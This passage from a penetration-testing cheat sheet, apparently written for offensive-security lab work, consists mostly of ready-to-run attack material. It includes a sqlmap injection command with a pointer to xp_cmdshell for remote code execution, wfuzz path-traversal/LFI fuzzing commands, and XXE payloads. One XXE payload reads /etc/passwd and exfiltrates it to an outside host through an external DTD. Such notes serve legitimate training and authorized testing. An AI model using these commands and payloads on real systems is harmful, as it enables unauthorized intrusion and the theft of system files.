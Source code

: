 Next, run `sqlmap -r sqli_login_page -p param` where param is the parameter from the request youd like to inject into

Note: The labs indicate that if the host is Windows it is highly likely this will be your RCE vector via xp_cmdshell

### Directory Traversal / LFI
```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://site:80/index.php?path=../../../../../../../../../../FUZZ```

```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://site:8080/test/../../../../../../../../../../../../FUZZ```

```wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 http://site:8080/test/FUZZ```

### XXE
If you see XML in ANY request, you should be testing for this

Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

<b> Out-of-Band Exploitation</b>
1. Create file named xxe.dtd with content:
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.88.131/out?%content;'>" >
```
2. Serve file with http 
3. Insert file in payload 
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```
4. Check incoming requests 

Note that extracting file with multiple lines may not work due to encoding issues.

<b>Inline File Retrieval</b>
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```
